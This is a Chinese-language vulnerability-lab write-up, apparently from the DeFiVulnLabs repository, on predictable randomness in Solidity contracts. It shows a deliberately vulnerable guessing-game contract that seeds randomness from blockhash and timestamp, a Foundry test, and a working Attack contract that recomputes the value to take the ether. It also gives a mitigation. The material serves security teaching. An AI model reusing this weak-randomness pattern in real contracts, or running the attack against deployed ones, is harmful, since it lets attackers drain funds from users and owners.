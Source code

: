 # 随机性 
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**名称：** 可预测的随机性漏洞  
**描述：**  
使用全局变量如区块哈希、区块编号、区块时间戳等字段是不安全的，矿工和攻击者可以控制它。    


**场景：**  
GuessTheRandomNumber合约是一款游戏，在这个游戏中，如果你能猜到从区块哈希和时间戳生成的伪随机数，你就可以赢得1个以太币。  

乍一看，似乎无法猜出正确的数字。  
但是让我们看看赢得这个游戏有多容易。  

 1. Alice部署GuessTheRandomNumber并存入1个以太币  
 2. Eve部署Attack合约  
 3. EVe调用Attack.attack()赢得了1个以太币



**发生了什么？**  
Attack合约通过简单地复制计算随机数的代码，计算出了正确的答案。  


**缓解措施：** 
不要使用blockhash和block.timestamp作为随机性的来源。  

**参考：**  
https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber合约：**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Randomness.sol-vvvv  
```
// 用于测试对存在可预测随机性漏洞合约的攻击
function testRandomness() public {
    // 将地址值从以太坊虚拟机分配给“alice”和“eve”。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice获得1个以太币
    vm.deal(address(alice), 1 ether);

    // 通过Alice的地址调用prank函数
    vm.prank(alice);

    // 创建GuessTheRandomNumberContract的实例，其余额为1个以太币
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // Eve的攻击开始
    vm.startPrank(eve);

    // 创建Attack合约的实例
    AttackerContract = new Attack();

    // 记录AttackerContract合约的当前余额
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // Attack合约试图猜测GuessTheRandomNumberContract的随机数。
    AttackerContract.attack(GuessTheRandomNumberContract);

    // 再次记录AttackerContract合约的余额，以确定攻击是否成功。
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // 记录一条消息，表示攻击已完成。
    console.log("Exploit completed");
}


// 尝试猜测GuessTheRandomNumberContract随机数的Attack合约。
contract Attack {
    // 允许此合约接收以太币的函数
    receive() external payable {}

    // 使用与GuessTheRandomNumberContract相同的逻辑计算伪随机数并使用它来猜测数字的attack函数。
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // 使用猜测的答案调用GuessTheRandomNumber合约的guess函数。
        guessTheRandomNumber.guess(answer);
    }

    // 辅助函数，用于检查当前合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```  
**红框：** 猜中答案并赢得比赛  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fda3d6929-9bc8-478e-a027-cff9c2a65c0d%2FUntitled.png?table=block&id=216b1af8-21a5-4e09-a63e-e4523705c968&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
